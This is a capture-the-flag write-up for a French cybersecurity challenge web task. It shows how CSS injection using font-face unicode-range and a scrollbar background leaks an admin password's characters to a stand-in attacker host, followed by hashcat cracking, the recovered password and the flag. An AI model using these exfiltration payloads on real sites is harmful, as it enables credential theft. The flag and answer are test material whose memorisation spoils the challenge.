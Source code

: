 # Cloud Password Manager

# Category

Web

# Author

Worty

# Description
Une entreprise de stockage de mots de passe dans le cloud vient se faire attaquer.

L'admin étant injoignable, on vous demande d'estimer très rapidement si en l'état, il est possible de se connecter à son compte.

https://cloud-password-manager.france-cybersecurity-challenge.fr/

Remarque : les comptes utilisateurs vieux de plus d'une heure sont supprimés automatiquement.


# Solution

As usual when I arrive on a web chall, a little initial recognition to get into the bath. Wappalyzer identifies that this application has been developed in flask, and we can see CSP on it, which are very strict and do not leave room for an XSS. There is, however, one rule that is permissive :

```
img-src http://* https://*;
```

So if we are able to inject an image tag or something else, we can grab the image from a remote ressource, this will be important for this challenge. 

Also, there is a flag page but we can only reach it if we're able to connect as the administrator.

When we arrive on the challenge, nothing interesting except one thing ! This website was hacked and they leaked the admin password :

```
sha256$FKM5MLhBFZ87pPgI$a51c4c0463d199fcf4a18bd8df2f40360c46e9caed05072618e8026f02dc83bf
```

Moreover, to create a password, he must :
- Have at least one lower ascii character
- Have at least one upper ascii character
- Have at least one number

This application is... a password manager, and store them in clear..

![meme](images/meme.jpg)

There is no way to trigger an XSS on this challenge, our inputs are filtered and there are strict CSPs. But the application allows us to inject some CSS code to "customize" our password manager. Our goal is clear, we have to exploit this functionnality to be able to exfiltrate the admin password (we can do this because we can send our style to the admin).

![meme](images/meme2.jpg)

In a standard CSS exfiltration, we use the fact that a secret is put into the application using the "value" attribute of a HTML tag, example :

```
<input hidden name="csrftoken" value="someRandomChar">
```

With a CSS injection, we can exfiltrate this with a rule that say "hey to the input with name csrftoken if you start by 's' reach this image!", like this :

```
input[name="csrftoken"][value^="s"]{
    background-image: url(https://attacker.com/?char=s)
}
```

But in our case, there is an "id" attribute, but the password is reflected in a HTML node, and not inside an attribute, so it's impossible to exploit like this. By reading <a href="https://x-c3ll.github.io/posts/CSS-Injection-Primitives/">this</a> article, we see that it's possible to create a font-face, use the parameter unicode-range as oracle, and set the src of this font as our leak. "unicode-range" is a parameter of font-face which allows developer to apply CSS rules to specific values. Here the exploit is obvious, you set the unicode-range as only one character, and then use the "src" parameter of font-face as exfiltrator. This is beautiful and.... nop.. a CSP deny the loading "font-src: self".

![3](images/meme3.jpg)

The last article of the previous website talk about a dark technique to exfiltrate the content of an HTML node and this is incredibly smart.

We are going to use the font-face directive to create a new font and use the unicode-range oracle as I describe before. We are not going to have directly the password, but we'll have characters that are inside it, and remember, we have sha256 hash corresponding to admin password, so if we are able to exploit like this, we can then use hash-utils to compute permutations and then run hashcat to break the hash !

The basis of my exploit is to use the scrollbar which can be displayed on a HTML div. Indeed, the fact that there is a scrollbar on an HTML element or not is something that can be known in CSS! So if we manage to display a scrollbar (and also using unicode-range), and it appears, then we know that the tested character is part of the admin password. To do this, we use the size-adjust parameter of the font face by increasing by 10000 the size of the tested character which will inevitably make a scrollbar appear.

Moreover, you have to add the directive "overflow: scroll" on the div "p1", which allows you to tell it to display a scrollbar if one/several character(s) exceeds the size of this one.

The font-face will be compose with :
- font-family: The name that we give to our new font-face
- src: Where is stored the ttf, woff, woff2, .. file for our font-face (i've just took one that was available on the challenge website due to CSP)
- unicode-range : The character that we are currently testing
- size-adjust: 10000% to be sure :)

To apply the font to our div, we put the attribute "font-family: pocFont" on it, as simple as that.

Last thing to do, trigger if a scroll bar is created, and this can be done like that :

```css
#p1::-webkit-scrollbar { 
      background: url(https://attacker.fr/?data=<currently tested character>);
}
```

Remember the CSP on img-src ? This allows us to do this (see before) and then exfiltrate the character :)

And when i try it, it didnt work.. and I've try for 45 minutes and then I decide to check the docs..

![docs](images/1.png)

Guess what ? I was testing with firefox..

![meme4](images/meme4.jpg)

Then I test it on brave, and with my password (which was... password) it works like a charm !

So this is our final exploit :

```css
@font-face {
  font-family: pocFont;
  src: url(static/fonts/GeorgiaBold.ttf);
  unicode-range: U+0053;
}

#p1{
font-family: pocFont;
}

ensuite:

@font-face {
  font-family: pocFont;
  src: url(static/fonts/GeorgiaBold.ttf);
  unicode-range: U+0030;
  size-adjust: 10000%;
}

#p1 {
font-family: pocFont;
overflow:scroll;
}

#p1::-webkit-scrollbar { 
      background: url(https://attacker.fr/?data=0);
}
```

Then I have created the custom CSS, send it to admin, and this for all characters. I could have automated this with a python script, but as there is a some rate-limits on challenges and the bot took 5-10 seconds to visit our page, I've do it by hand.

At the end, we recover 12 characters ! (if two characters would have been identical in the admin password I'll recovered only 11, ...) : `24GIOSThkmqu`

Time to use hash-utils and hashcat !
The hash of the admin stands for mode "1460" of hashcat, so our command is :

```sh
> echo "24GIOSThkmqu" | ./permute.bin | hashcat -m 1460 ../../hash --show
a51c4c0463d199fcf4a18bd8df2f40360c46e9caed05072618e8026f02dc83bf:FKM5MLhBFZ87pPgI:4mSIq2uGThOk
```

In less than one minute we found it ! Let's connect as admin and recover our precious flag !

# Flag

FCSC{285b45edec8067daa4e8548168cc37cbb20cadc6162006cd248778adce9178c0}